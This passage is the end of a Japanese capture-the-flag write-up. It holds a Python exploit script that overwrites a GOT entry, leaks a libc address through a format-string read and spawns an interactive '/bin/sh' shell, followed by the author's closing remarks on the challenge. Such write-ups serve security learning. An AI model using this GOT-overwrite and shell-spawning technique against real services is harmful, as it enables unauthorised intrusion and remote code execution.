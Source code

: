 ```python
s.sendall(b'-2\n')
time.sleep(1)

print(s.recv(2048).decode())

print("[info] overwrite buffer address to atol@got")
s.sendall(str(malloc_got).encode()) # malloc
# s.sendall(str(0x601040).encode()) # atol
# time.sleep(1)

print(s.recv(2048).decode())
time.sleep(1)

print("[info] overwrite atol@got to printf@plt")
s.sendall(b"a"*8 + printf_plt.to_bytes(8, 'little') + b'\n') # printf
# s.sendall((0x400590).to_bytes(8, 'little'))
time.sleep(1)
print(s.recv(2048))

s.sendall(b"%25$p")
time.sleep(1)
libc_start_main = int(s.recv(14).decode(), 16)
libc_base = libc_start_main - libc_start_main_symbol - 231
print("[info] libc base: ", hex(libc_base))
system = libc_base + libc_system
print("[info] system: ", hex(system))
time.sleep(1)

s.sendall(b"/bin/sh\0" + system.to_bytes(8, 'little'))

print(s.recv(2048))
print("[info] success to exploit!!!")
t = telnetlib.Telnet()
t.sock = s

t.interact()
```

### まとめ
非常に楽しい問題でした．pwnやってる気になりましたね．僕のような初心者が本番で特には難しい問題でしたが，一つ一つステップを踏んで理解すれば解ける問題でした．また，基本的なテクニックが詰まっている問題だったのでこれを自分で理解することができればレベルアップできる気がします．そういった意味で初心者にとってすごくいい問題だったと思います．ありがとうございました．
